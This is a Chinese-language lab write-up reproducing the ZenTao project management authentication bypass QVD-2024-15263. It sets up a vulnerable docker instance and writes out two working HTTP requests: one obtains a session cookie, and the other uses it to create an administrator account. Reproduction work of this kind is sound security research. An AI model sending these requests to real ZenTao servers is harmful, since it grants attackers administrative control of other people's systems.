




# 禅道项目管理系统 身份验证漏洞QVD-2024-15263

​	ZenTaoPMS（ZenTao Project Management System），中文名为禅道项目管理软件。ZenTaoPMS是易软天创公司为了解决众多企业在管理过程中出现的混乱，无序的现象，开发出来的一套项目管理软件。它集产品管理、项目管理、测试管理于一身，同时包含事务管理、组织管理诸多功能，是中小型企业项目管理的首选工具。ZenTaoPMS基于自主研发的PHP开发框架---禅道PHP框架开发而成。通过这套框架，企业或者第三方的开发者可以非常方便、灵活的对禅道进行功能的修改或者扩展。

​	2024年4月，互联网披露禅道系统存在身份认证绕过的漏洞情报。经分析，确认该漏洞利用简单，并可能在绕过权限后利用后台其他漏洞实现 ...

官网地址：https://www.zentao.net/

源码下载：https://dl.zentao.net/zentao/18.11/ZenTaoPMS-18.11-php7.0.tar.xz

参考链接：

- https://blog.csdn.net/shelter1234567/article/details/138424581
- https://github.com/easysoft/zentaopms/commit/695055c6b1d2e6a8c944bdbc38308c06820c40ce

**影响版本**

> v16.x ≤ zentao < v18.12 （开源版）
>
> v6.x ≤ zentao < v8.12 （企业版）
>
> v3.x ≤ zentao < v4.12 （旗舰版）


## 漏洞环境

执行如下命令启动一个zentaopms-v18.11-web：

```shell
docker run -d -p 80:80 -e MYSQL_INTERNAL=true hub.zentao.net/app/zentao:18.11
```

环境启动后，访问`http://your-ip:80`即可跳转到zentaopms安装向导页面



点下一步



设置账号


完成



## 漏洞复现

1, 获取系统返回的cookie值

```
GET /api.php?m=testcase&f=savexmindimport&HTTP_X_REQUESTED_WITH=XMLHttpRequest&productID=hxsjoqkyiveutbzwlvjv&branch=rbpcotcxawqpqhvhqfpp HTTP/1.1
Host: 192.168.160.128
Content-Length: 2
```


2, 利用这个cookie，发送请求创建管理员账号

```
POST /api.php/v1/users HTTP/1.1
Cookie: zentaosid=c7acc388fd50eafc2aff8b556afea056;
Host: 192.168.160.128

{"account": "VulneraLab", "password": "VulneraLab", "realname": "VulneraLab", "role": "top", "group": "1"}
```



返回403表示成功

3，验证登录账号

输入用户名密码 VulneraLab：VulneraLab登录系统

